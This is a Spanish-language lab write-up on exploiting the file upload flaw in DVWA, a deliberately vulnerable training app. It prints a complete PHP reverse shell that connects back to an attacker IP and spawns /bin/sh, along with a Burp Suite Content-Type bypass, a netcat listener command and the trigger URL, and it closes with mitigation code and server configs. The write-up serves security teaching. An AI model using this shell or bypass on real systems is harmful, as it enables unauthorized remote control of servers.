




# Vulnerabilidad File Upload - Reverse Shell

## 🎯 Identificación de la Vulnerabilidad

### Ubicación del Vector de Ataque

La vulnerabilidad se encuentra en la funcionalidad de **"File Upload"**, que permite subir archivos al servidor sin validación adecuada del contenido real del archivo.



**Punto vulnerable identificado:**
- **Campo**: Formulario de carga de archivos
- **Funcionalidad**: Upload de imágenes
- **Riesgo**: Ejecución de código PHP malicioso en el servidor

---

## 🔍 Análisis del Código Vulnerable

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

### ⚠️ Vulnerabilidades Identificadas

#### 1. **Validación Solo del Content-Type**

```php
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) )
```

**Problema**: 
- Solo valida el header `Content-Type` enviado por el cliente
- No verifica el contenido real del archivo
- Puede ser fácilmente manipulado mediante Burp Suite

#### 2. **Información Sensible Expuesta**

```php
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
echo "<pre>{$target_path} succesfully uploaded!</pre>";
```

**Problema**:
- Revela la ruta exacta donde se almacenan los archivos
- Facilita el acceso posterior al archivo malicioso
- Ruta predecible: `../../hackable/uploads/`

#### 3. **Sin Verificación de Contenido**

- No hay validación de magic bytes
- No se verifica la extensión real del archivo
- Permite ejecutar archivos PHP cargados

---

## 💉 Creación del Payload

### Reverse Shell en PHP

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.50.11';  // CHANGE THIS
$port = 443;            // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid leaving a trace
//
if (function_exists('pcntl_fork')) {
    // Fork and have the parent exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
        printd("ERROR: Can't fork\n");
        exit(1);
    }
    
    if ($pid) {
        exit(0);  // Parent exits
    }
    
    if (posix_setsid() == -1) {
        printd("ERROR: Can't setsid()\n");
        exit(1);
    }
    
    $daemon = 1;
} else {
    printd("WARNING: Daemonisation not supported on this system\n");
}

// Chdir to / to avoid leaving traces
chdir("/");

// Do not display errors
ini_set('display_errors', 0);
set_error_handler('errorHandler');

function errorHandler($errno, $errstr, $errfile, $errline) {
    // Do nothing, suppress all errors
}

// Make the connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printd("$errstr ($errno)\n");
    exit(1);
}

// Spawn shell
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printd("ERROR: Can't spawn shell\n");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printd("Successfully opened reverse shell to $ip:$port\n");

while (!feof($sock) && !feof($pipes[1])) {
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
    if (in_array($sock, $read_a)) {
        if (($input = fread($sock, $chunk_size)) === false) {
            printd("ERROR: Could not read from socket\n");
            break;
        }
        fwrite($pipes[0], $input);
    }
    
    if (in_array($pipes[1], $read_a)) {
        if (($input = fread($pipes[1], $chunk_size)) === false) {
            printd("ERROR: Could not read from stdout\n");
            break;
        }
        fwrite($sock, $input);
    }
    
    if (in_array($pipes[2], $read_a)) {
        if (($input = fread($pipes[2], $chunk_size)) === false) {
            printd("ERROR: Could not read from stderr\n");
            break;
        }
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printd($string) {
    global $debug;
    if ($debug) {
        echo $string;
    }
}
?>
```

### ⚙️ Configuración del Payload

**Parámetros a modificar:**
```php
$ip = '192.168.50.11';  // IP de tu máquina atacante
$port = 443;            // Puerto de escucha
```

---

## 🔧 Explotación con Burp Suite

### Paso 1: Interceptar la Petición

1. Cargar el archivo PHP malicioso desde la interfaz web
2. Interceptar la petición con Burp Suite
3. La aplicación rechazará el archivo por no ser imagen

### Paso 2: Modificar el Content-Type

**Cambiar el header de la petición:**

❌ **Original (Rechazado):**
```http
Content-Type: application/x-php
```

✅ **Modificado (Aceptado):**
```http
Content-Type: image/jpeg
```



### Paso 3: Enviar la Petición Modificada

- Hacer clic en **"Forward"** en Burp Suite
- El servidor aceptará el archivo al creer que es una imagen JPEG

---

## ✅ Resultado de la Carga

### Confirmación del Upload

El servidor confirma la carga exitosa y revela la ruta del archivo:



**Información obtenida:**
- ✅ Archivo cargado exitosamente
- 📂 Ruta revelada: `../../hackable/uploads/`
- 📄 Nombre del archivo: `revshell.php` (o el nombre que hayas usado)

---

## 🎯 Ejecución del Reverse Shell

### Paso 1: Poner Máquina en Escucha

**Comando de escucha en la máquina atacante:**

```bash
sudo nc -lvnp 443
```

**Parámetros:**
- `-l` : Modo listening (escucha)
- `-v` : Verbose (salida detallada)
- `-n` : No resolver nombres DNS
- `-p 443` : Puerto de escucha (debe coincidir con el del payload)

### Paso 2: Acceder al Archivo Cargado

**Ruta de acceso desde el navegador:**

```
http://localhost/vulnerabilities/upload/../../hackable/uploads/revshell.php
```

O de forma simplificada:

```
http://localhost/hackable/uploads/revshell.php
```

### Paso 3: Reverse Shell Establecida



**Resultado:**
- ✅ Conexión establecida exitosamente
- 🔓 Acceso al servidor mediante shell interactiva
- 📂 Capacidad de enumerar directorios y archivos
- ⚡ Control remoto del servidor

---

## 🛡️ Recomendaciones de Seguridad

### 1. **Validación Robusta de Archivos**

```php
function validateImageFile($file) {
    // Verificar extensión permitida
    $allowed_extensions = array('jpg', 'jpeg', 'png', 'gif');
    $file_extension = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    
    if (!in_array($file_extension, $allowed_extensions)) {
        return false;
    }
    
    // Verificar MIME type real (no del header)
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime_type = finfo_file($finfo, $file['tmp_name']);
    finfo_close($finfo);
    
    $allowed_mimes = array('image/jpeg', 'image/png', 'image/gif');
    if (!in_array($mime_type, $allowed_mimes)) {
        return false;
    }
    
    // Verificar que sea una imagen real
    $image_info = getimagesize($file['tmp_name']);
    if ($image_info === false) {
        return false;
    }
    
    return true;
}
```

### 2. **Renombrar Archivos**

```php
// Generar nombre único y seguro
$file_extension = pathinfo($_FILES['uploaded']['name'], PATHINFO_EXTENSION);
$new_filename = uniqid('img_', true) . '.' . $file_extension;
$target_path = $upload_dir . $new_filename;
```

### 3. **Almacenar Fuera del Document Root**

```php
// Ubicación fuera del directorio web
$upload_dir = '/var/uploads/';  // No accesible vía web

// Servir archivos a través de script PHP con autenticación
// readfile($upload_dir . $safe_filename);
```

### 4. **Configuración de Permisos**

```bash
# Directorio de uploads sin permisos de ejecución
chmod 755 /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads

# Archivos sin permisos de ejecución
find /var/www/html/uploads -type f -exec chmod 644 {} \;
```

### 5. **Configuración de Apache/Nginx**

**Apache (.htaccess):**
```apache
# Deshabilitar ejecución de PHP en directorio de uploads
php_flag engine off

# O mediante configuración del servidor
<Directory "/var/www/html/uploads">
    php_admin_flag engine off
    AddType text/plain .php .php3 .phtml .pht
</Directory>
```

**Nginx:**
```nginx
location ~* ^/uploads/.*\.(php|php3|php4|php5|phtml)$ {
    deny all;
}
```

---

## 📊 Comparativa de Seguridad

| Aspecto | Código Vulnerable | Código Seguro |
|---------|------------------|---------------|
| **Validación** | ❌ Solo Content-Type del header | ✅ MIME real + getimagesize() |
| **Extensión** | ❌ No verificada | ✅ Whitelist estricta |
| **Nombre archivo** | ❌ Original del usuario | ✅ Generado por sistema |
| **Ubicación** | ❌ Dentro de document root | ✅ Fuera de document root |
| **Permisos** | ❌ Ejecución permitida | ✅ Sin permisos de ejecución |
| **Revelación de info** | ❌ Muestra ruta completa | ✅ Solo confirmación genérica |

---

## 🎓 Lecciones Aprendidas

### ❌ **NUNCA hacer:**
1. Confiar solo en el Content-Type del header HTTP
2. Permitir ejecución de scripts en directorios de upload
3. Usar nombres de archivo proporcionados por el usuario
4. Revelar rutas del sistema en mensajes de éxito/error

### ✅ **SIEMPRE hacer:**
1. Validar el contenido real del archivo (magic bytes, getimagesize)
2. Usar whitelist de extensiones permitidas
3. Generar nombres de archivo únicos y seguros
4. Almacenar uploads fuera del document root cuando sea posible
5. Deshabilitar ejecución de scripts en directorios de upload
6. Implementar límites de tamaño y tasa de uploads
7. Escanear archivos con antivirus antes de aceptarlos

---

## 🚨 Impacto de la Vulnerabilidad

### Severidad: **CRÍTICA** 🔴

**Consecuencias de la explotación exitosa:**
- 💀 **Remote Code Execution (RCE)** - Control total del servidor
- 🔑 **Acceso a bases de datos** - Extracción de información sensible
- 📂 **Lectura de archivos del sistema** - Acceso a configuraciones y credenciales
- 🌐 **Pivoting** - Uso del servidor comprometido para atacar otros sistemas
- 🗃️ **Data exfiltration** - Robo de datos confidenciales
- 🔧 **Persistencia** - Instalación de backdoors permanentes

---

## 📚 Conclusión

Esta vulnerabilidad demuestra por qué **nunca se debe confiar en datos controlados por el cliente**. El Content-Type HTTP es fácilmente manipulable y no representa el contenido real del archivo.

**Principios clave:**
- 🔍 **Validación del lado del servidor**: Siempre verificar el contenido real
- 🛡️ **Defensa en profundidad**: Múltiples capas de validación
- 🔒 **Principio de mínimo privilegio**: Sin permisos de ejecución en uploads
- 📝 **Nunca confiar en el cliente**: Todo input debe ser validado

La seguridad efectiva requiere validación exhaustiva del contenido real de los archivos, no solo de los metadatos enviados por el cliente.